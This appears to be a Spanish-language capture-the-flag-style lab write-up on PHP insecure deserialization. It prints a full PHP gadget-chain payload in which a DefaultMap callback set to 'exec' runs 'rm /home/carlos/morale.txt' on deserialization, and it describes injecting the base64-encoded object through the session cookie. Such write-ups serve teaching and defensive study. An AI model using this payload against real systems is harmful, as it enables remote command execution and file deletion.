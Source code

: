 Creamos manualmente un objeto **CustomTemplate** que contiene la cadena de gadgets necesaria. En este objeto, el atributo ‘**desc**‘ contiene una instancia de **DefaultMap** cuyo **callback** es la función **exec**. Al deserializarlo, ‘**exec()**‘ se invocará con el valor de ‘**default_desc_type**‘, que contiene nuestro comando malicioso.

Codificamos el objeto en Base64 y lo URL-encodeamos, luego lo inyectamos en la cookie de sesión. Al procesarse, se ejecuta el comando, lo que elimina el archivo ‘**morale.txt**‘ del directorio de Carlos y resuelve el laboratorio.

Solucion
![[Pasted image 20250827015606.png]]
asi que modificamos el codigo
(<?php

class CustomTemplate {
    public $default_desc_type;
    public $desc;
    public $product;

    public function __construct($desc_type='HTML_DESC') {
        $this->desc = new Description();
        $this->default_desc_type = $desc_type;
        // Carlos thought this is cool, having a function called in two places... What a genius
        $this->build_product();
    }

    public function __sleep() {
        return ["default_desc_type", "desc"];
    }

    public function __wakeup() {
        $this->build_product();
    }

    public function build_product() {
        $this->product = new Product($this->default_desc_type, $this->desc);
    }
}

class Product {
    public $desc;

    public function __construct($default_desc_type, $desc) {
        $this->desc = $desc->$default_desc_type;
    }
}

class Description {
    public $HTML_DESC;
    public $TEXT_DESC;

    public function __construct() {
        // @Carlos, what were you thinking with these descriptions? Please refactor!
        $this->HTML_DESC = '<p>This product is <blink>SUPER</blink> cool in html</p>';
        $this->TEXT_DESC = 'This product is cool in text';
    }
}

class DefaultMap {
    public $callback;

    public function __construct($callback) {
        $this->callback = $callback;
    }

    public function __get($name) {
        return call_user_func($this->callback, $name);
    }
}

$obj = new CustomTemplate();
$obj->desc = new DefaultMap("exec");
$obj->default_desc_type = "rm /home/carlos/morale.txt";

echo serialize($obj);
?>)
Ambos códigos comparten la misma estructura de clases (`CustomTemplate`, `Product`, `Description`, `DefaultMap`), pero tienen diferencias **críticas** en cuanto a seguridad, visibilidad y comportamiento al serializar. Vamos a desglosarlo:

🧩 Comparación técnica entre los dos códigos

![[Pasted image 20250827021726.png]]

🔥 ¿Por qué el segundo código es peligroso?

En el segundo código, se hace esto:

$obj->desc = new DefaultMap("exec"); $obj->default_desc_type = "rm /home/carlos/morale.txt";

Y luego se serializa el objeto:

echo serialize($obj);

Cuando este objeto se deserializa, se ejecuta:

$this->product = new Product($this->default_desc_type, $this->desc);

Lo que se traduce en:

$this->desc = $desc->$default_desc_type;

Y como `$desc` es un `DefaultMap`, se invoca:

call_user_func("exec", "rm /home/carlos/morale.txt");

💣 **Resultado**: Se ejecuta un comando del sistema que borra un archivo.

🛡️ Conclusión

- El **primer código** es seguro y bien encapsulado. No permite manipulación externa de propiedades sensibles.
- El **segundo código** es vulnerable a **deserialización insegura**, lo que puede permitir ejecución de comandos arbitrarios si el objeto es manipulado antes de serializar.
ejecutamos
![[Pasted image 20250827021815.png]]
asi que esto hay que representarlo en base64
![[Pasted image 20250827022115.png]]
copiamos la cookie y pegamos
![[Pasted image 20250827022202.png]]
